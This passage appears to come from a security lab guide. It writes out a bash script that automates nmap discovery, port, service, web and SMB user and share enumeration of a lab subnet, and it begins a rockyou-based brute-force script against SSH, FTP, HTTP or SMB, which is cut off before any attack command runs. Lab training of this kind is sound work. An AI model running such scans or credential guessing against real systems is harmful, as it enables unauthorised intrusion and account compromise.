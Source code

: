 ### 3. Create Attack Scripts

#### Automated Reconnaissance Script
```bash
# Create reconnaissance automation script
sudo tee /opt/recon-automation.sh > /dev/null <<'EOF'
#!/bin/bash

TARGET_NETWORK="10.0.2.0/24"
OUTPUT_DIR="/tmp/recon-$(date +%Y%m%d-%H%M%S)"

mkdir -p $OUTPUT_DIR

echo "[+] Starting reconnaissance of $TARGET_NETWORK"
echo "[+] Output directory: $OUTPUT_DIR"

# Network discovery
echo "[+] Performing network discovery..."
nmap -sn $TARGET_NETWORK > $OUTPUT_DIR/network-discovery.txt

# Port scanning
echo "[+] Performing port scanning..."
nmap -sS -sV -O -A $TARGET_NETWORK > $OUTPUT_DIR/port-scan.txt

# Service enumeration
echo "[+] Enumerating services..."
nmap --script=default,discovery,safe $TARGET_NETWORK > $OUTPUT_DIR/service-enum.txt

# Web service discovery
echo "[+] Discovering web services..."
nmap -p 80,443,8080,8443 --script=http-enum $TARGET_NETWORK > $OUTPUT_DIR/web-discovery.txt

# SMB enumeration
echo "[+] Enumerating SMB services..."
nmap --script=smb-enum-shares,smb-enum-users,smb-os-discovery $TARGET_NETWORK > $OUTPUT_DIR/smb-enum.txt

echo "[+] Reconnaissance completed. Results saved to $OUTPUT_DIR"
EOF

chmod +x /opt/recon-automation.sh
```

#### Brute Force Attack Script
```bash
# Create brute force automation script
sudo tee /opt/bruteforce-automation.sh > /dev/null <<'EOF'
#!/bin/bash

TARGET_IP=$1
SERVICE=$2
WORDLIST="/usr/share/wordlists/rockyou.txt"
OUTPUT_DIR="/tmp/bruteforce-$(date +%Y%m%d-%H%M%S)"

if [ $# -ne 2 ]; then
    echo "Usage: $0 <target_ip> <service>"
    echo "Services: ssh, ftp, http, smb"
    exit 1
fi

mkdir -p $OUTPUT_DIR

echo "[+] Starting brute force attack against $TARGET_IP ($SERVICE)"
echo "[+] Output directory: $OUTPUT_DIR"
```